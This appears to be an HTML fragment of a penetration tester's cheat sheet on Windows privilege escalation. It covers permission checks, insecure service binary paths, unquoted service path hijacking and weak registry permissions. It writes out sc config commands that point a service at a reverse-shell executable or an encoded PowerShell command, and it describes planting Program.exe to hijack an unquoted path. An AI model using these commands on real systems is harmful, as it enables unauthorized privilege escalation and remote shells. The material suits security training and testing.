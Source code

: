         <table>
            <tr>
                <td>Check directory permissions</td>
                <td>icacls "C:\&lt;Directory&gt;"</td>
            </tr>
            <tr>
                <td>Check for access to insecure executable</td>
                <td>Icacls &quot;&lt;Executable&gt;&quot;</td>
            </tr>
        </table>
    </ul>
    <li>Insecure Service Properties</li>
    <ul>
        <li>Change binary path</li>
        <ul>
            <li>sc config &lt;name&gt; binpath= &quot;\&quot;C:\reverse_shell.exe""</li>
            <li>sc.exe config usosvc binpath="cmd.exe /c powershell.exe -EncodedCommand &lt;base64&gt;</li>
        </ul>
    </ul>
    <li>Unquoted Service Path</li>
    <ul>
        <li>Try to raplce a path location to a reverse shell executable</li>
        <ul>
            <li>Example</li>
            <ul>
                <li>C:\Program Files\Unquoted Path Service\Common Files\originalservice.exe</li>
                <ul>
                    <li>windows would try to execute "Program" first, then "Unquoted", then "Common", and finally "originalservice.exe"</li>
                    <ul>
                        <li>If we can create a reverse shell named "Program.exe", "Unquoted.exe", etc, we can get reverse shell</li>
                    </ul>
                </ul>
            </ul>
        </ul>
    </ul>
    <li>Weak Registry Permissions</li>
    <ul>
        <li>INTERACTIVE group includes all users that can login locally</li>
    </ul>
    <table>
        <tr>
            <td>Check registry permissions using PowerShell</td>
            <td>Get-Acl HKLM:\registry\directory | format-list</td>
        </tr>
        <tr>
            <td>Check permissions using accesschk.exe</td>
            <td>accesschk.exe /accepteula -uvwqk HKLM\registry\directory</td>
        </tr>
        <tr>
            <td>Check current values in registry entry</td>
            <td>
                <table>
                    <tr>
                        <td>Method 1</td>
                        <td>reg query HKLM\System\CurrentControlSet\services\&lt;service&gt;</td>
                    </tr>
                    <tr>
                        <td>Method 2</td>
                        <td>Get-Item HKLM:\System\CurrentControlSet\Services\&lt;service&gt;</td>
                    </tr>
                </table>
            </td>